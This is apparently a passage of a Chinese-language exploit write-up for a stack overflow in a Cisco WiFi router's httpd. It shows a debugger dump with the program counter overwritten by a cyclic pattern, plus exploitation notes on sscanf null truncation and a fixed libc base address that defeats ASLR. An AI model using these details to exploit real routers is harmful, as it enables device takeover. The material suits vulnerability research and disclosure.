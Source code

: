 ```bash
 T3   0x77ff5a70 —▸ 0x77a28000 ◂— 0x464c457f
*T4   0x77a2a64c ◂— 0x88e
*T5   0x24
*T6   0xd80b684
 T7   0x77a2eb7c ◂— 0x4c475f00
 T8   0x77a2a40c ◂— nop
*T9   0x77a564d0 ◂— lbu    $v1, ($a0)
*S0   0x6e616161 ('aaan')
*S1   0x6f616161 ('aaao')
*S2   0x70616161 ('aaap')
*S3   0x71616161 ('aaaq')
*S4   0x72616161 ('aaar')
*S5   0x73616161 ('aaas')
*S6   0x74616161 ('aaat')
*S7   0x75616161 ('aaau')
*S8   0x76616161 ('aaav')
*FP   0x7fff1348 ◂— 'aaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
*SP   0x7fff1348 ◂— 'aaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
*PC   0x77616161 ('aaaw')
───────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────
Invalid address 0x77616161

───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ fp sp 0x7fff1348 ◂— 'aaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
01:0004│       0x7fff134c ◂— 'aaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
02:0008│       0x7fff1350 ◂— 'aaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
03:000c│       0x7fff1354 ◂— 'aabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
04:0010│       0x7fff1358 ◂— 'aabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
05:0014│       0x7fff135c ◂— 'aabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
06:0018│       0x7fff1360 ◂— 'aabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
07:001c│       0x7fff1364 ◂— 'aabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► f 0 0x77616161
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

## EXP
需要注意的几点：
1. sscanf，存在00截断
2. 地址随机化（在真实设备中）.但是思科WiFi路由，httpd进程的libc基址就是2af98000，无论你是重启进程，还是升级版本，这个基址都不变。猜测可能是为了轻量化把随机化给裁剪了。     
```
$ cat /proc/sys/kernel/randomize_va_space
1
```